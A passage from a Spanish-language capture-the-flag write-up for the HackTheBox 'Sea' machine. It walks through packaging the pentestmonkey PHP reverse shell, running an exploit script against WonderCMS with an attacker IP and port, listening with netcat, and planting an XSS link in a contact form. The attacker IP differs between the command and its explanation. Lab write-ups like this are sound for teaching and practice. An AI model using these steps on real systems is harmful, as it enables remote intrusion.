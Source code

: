 Para este paso descargaremos una ReverShell de la siguiente fuente: [pentestmonkey.net](https://pentestmonkey.net/tools/web-shells/php-reverse-shell). Aquí descargaremos un comprimido `php-reverse-shell-1.0.tar.gz` que debemos descomprimir y eliminar los archivos innecesarios. Por ultimo renombrar el archivo `php-reverse-shell.php` como `rev.php` y comprimirlo en un archivo zip llamado `revshell-main.zip`. El cambio de estructura se vería algo así:  
![rev](/assets/img/sea/rev.png)  
>Dentro del archivo rev.php no hacemos ninguna modificación, sin embargo debemos tomar el puerto, en este caso, el 1234.

### Fase 2: Ejecución

Movemos tanto el `exploit.py` y el comprimido `revshell-main.zip` a un mismo directorio. posteriormente ejecutamos el script en Python con los siguientes parámetros:
```bash
python3 exploit.py "http://sea.htb/wondercms?page=index.php" 10.10.16.76 1234
```
`Python3`: Al ser un script de Python lo ejecutamos como tal, con la versión de Python 3.
`exploit.py`: Script del exploit que modificamos.
`URL`: Dirección del sitio que contiene el WonderCMS.
`10.10.17.76`: IP del atacante.
`1234`: Puerto de acceso, es el mismo que en el archivo **rev.php**.

**Después de la ejecución debemos seguir los siguientes pasos**:

1. Abrirá un servidor local en el puerto 8000 -> 127.0.0.1:8000
2. Creara un archivo xss.js que será el archivo que ejecute el Cross Site Scripting.
3. Nos pedirá que nos pongamos en escucha por el puerto `1234` vía **netcat**.
![Page](/assets/img/sea/NC.png)  
5. Generara un link que debemos copiar en la pagina `http://sea.htb/contact.php` en el campo ****website***.